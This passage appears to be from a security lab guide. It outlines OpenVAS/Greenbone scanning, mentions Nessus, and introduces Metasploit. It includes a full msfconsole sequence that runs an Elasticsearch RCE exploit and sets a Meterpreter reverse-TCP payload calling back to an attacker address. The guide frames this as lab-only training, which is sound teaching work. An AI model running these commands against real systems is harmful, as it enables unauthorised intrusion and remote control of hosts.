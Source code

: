**Basic workflow**

1. Install GVM or use Docker image.
2. Update feed (NVTs).
3. Create a target and run a scan through the web UI or gvm-cli.
4. Review report (CVEs, severity, remediation tips).

**Command (example via `gvm-cli` / web UI)**

```text
# Most interaction is via the Greenbone web UI — create target -> run scan -> view report
```

**Notes**

* Good for labs: show CVE findings and remediation guidance.
* Requires significant resources and initial feed update time.

---

## ## Nessus (note)

**Purpose:** Commercial tool with free “Essentials” tier for training. Similar to OpenVAS but polished UI and plugin ecosystem. Not fully open-source — mention as commercial alternative.

---

## ## Metasploit Framework

**Purpose:** Penetration testing framework (post-discovery exploits, payloads, sessions). Use for controlled exploitation in labs only.
**Install:** `sudo apt install -y metasploit-framework` (or use Rapid7 Docker images).

**Sample quick flow**

```bash
# Start msfconsole
msfconsole

# Search for an exploit (example: elasticsearch)
search elasticsearch

# Use exploit (lab-only), set RHOST and payload, then run
use exploit/linux/http/elasticsearch_scripting_rce
set RHOST 10.0.0.30
set RPORT 9200
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.0.0.5
exploit
```

**Notes**

* Metasploit can be destructive — ensure explicit permission and lab isolation.
* Use simulated exploits on intentionally vulnerable images (Metasploitable, OWASP Broken Web Apps).

---